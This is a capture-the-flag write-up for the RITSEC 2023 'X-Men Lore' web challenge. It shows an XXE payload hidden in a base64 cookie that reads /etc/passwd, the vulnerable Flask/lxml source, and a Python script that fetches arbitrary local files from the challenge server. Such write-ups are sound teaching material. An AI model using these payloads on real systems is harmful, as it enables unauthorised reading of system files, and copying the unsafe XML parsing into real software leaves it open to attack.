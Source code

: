 ```yaml
---
layout: post
title:  RITSEC 2023 - Web / X-Men Lore
summary: 'Writeup for RITSEC 2023 "X-Men Lore" Challenge'
author: leo
date: '2023-04-02 00:00:00 -0400'
category: ritsec-ctf-2023
thumbnail: /assets/img/posts/ritsec-ctf-2023/logo.png
include_thumbnail: false
keywords: security, ctf, ritsec
permalink: /blog/ritsec-ctf-2023/web/x-men-lore
usemathjax: true
---
```


# The Challenge
There's an x-men themed website that gives you buttons to view more info about a given "X-Man".

## Cookies On Click
After clicking around for a bit, I noticed that the URL for every x-man was the same: `/xmen`.  This told me that we were either doing a post request or using a cookie of some kind.  After viewing the links on the main page, I noticed something a bit odd in the HTML:
```html
<a href="/xmen">
    <button onclick="document.cookie='xmen=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+QmVhc3Q8L3htZW4+PC9pbnB1dD4='">
      Beast
    </button>
</a>
```
This is a link, with a button that sets a cookie before it navigates.  This is pretty unusual, so let's dig in a bit.

## The Cookie Value
First and foremost, this cookie value looks like base64 data.  Let's decode it:

```
echo -n 'PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+QmVhc3Q8L3htZW4+PC9pbnB1dD4=' | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Beast</xmen></input>
```

....it's XML? Well this just keeps getting weirder.  

## XXE
Inspecting each of the cookie values that the buttons set, I can see that there's always an `input` and `xmen` attribute.  This is screaming XXE.  Let's try one!
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<input>
    <xmen>&xxe;</xmen>
</input>
```

And our base-64 encoded version:
```
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPCFET0NUWVBFIGZvbyBbIDwhRUxFTUVOVCBmb28gQU5ZID4KPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIiA+XT4KPGlucHV0PgogICAgPHhtZW4+Jnh4ZTs8L3htZW4+CjwvaW5wdXQ+
```

For now, I manually set the cookie in my browser using the dev tools, and refreshed the `/orders` page:

![setting cookie value in dev tools](/assets/img/posts/ritsec-ctf-2023/x-men-lore/set-cookie.png 'Setting the Cookie')
<br /><br />
![etc passwd leaked](/assets/img/posts/ritsec-ctf-2023/x-men-lore/etc-passwd-leak.png 'Leaking /etc/passwd')
<br /><br />

## Grabbing the Flag
Great!  We have an LFI via XEE, and we can just go on our merry way and grab the flag.  It's DEFINITELY going to be at `~/flag.txt`, right??? Wrong.  I spent about 20 minutes piecing together the exploit, and that was a ton of fun!  Simple, educational, easy enough to understand.  What took me two hours?  Finding the dang flag.  I finally found it at `/flag`, but... I really wish they standardized the location of where to find flags.  Someone in the CTF Discord said something that resonated with me.  I'm omitting their name and only quoting part of the message, so, realize there's probably more context:
> the difficulty should be in exploiting the problem, not in going around trying to do random stuff to find the flag. 

Because I was so frustrated trying to find the flag, I decided to see if I could find the server source code.  That was another guessing game, but I eventually found it at `/home/user/app.py`:
```python
from flask import Flask, render_template, request, redirect, url_for
import lxml.etree as ET
from base64 import b64decode
app = Flask(__name__)

@app.route("/")
def index():
  return render_template("index.html")

@app.route("/xmen")
def xmen():
  cookie = request.cookies.get("xmen")
  try:
    b64decode(cookie)
    data = ET.fromstring(b64decode(cookie))
  except:
    return redirect(url_for("index"))
  return render_template("xmen.html", data=data)

```

This was working exactly as you'd expect, there was no secret sauce here.  I even set up the server to run locally to see if I could figure out a payload to get a directory listing.  I did everything I could to avoid brute-forcing it, because that slows the webserver down, causes crashes, and ruins the fun for everyone else for a few fake internet points.

## The Next Day
After shutting down for the night feeling defeated, I checked back the next day and they released a hint, basically telling you the flag isn't where you thought it was. ...well that was obvious to me already, so not a lot of help.  A teammate gave me a quick python script to make my guesses a bit faster:

```python
import requests
import argparse
import base64


parser = argparse.ArgumentParser()
parser.add_argument("hack")

url = "https://xmen-lore-web.challenges.ctf.ritsec.club/xmen"
payload = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file://{command}" >]>
<input>
    <xmen>&xxe;</xmen>
</input>"""

if __name__ == "__main__":

    args  = parser.parse_args()
    encoded_cookie = base64.b64encode(bytes(payload.format(command=args.hack), 'utf-8'))
    resp = requests.get(url, cookies={"xmen": encoded_cookie.decode('utf-8')})
    print(resp.text)

```

Using this, I just guessed enough until I found it was living at `/flag`.  

# Conclusion
This is the only challenge that I've given constructive or critical feedback for. With that said, it didn't ruin the fun or my opinion or RITSEC CTF.  They put on such an awesome CTF this year, and I'm glad I was able to participate!
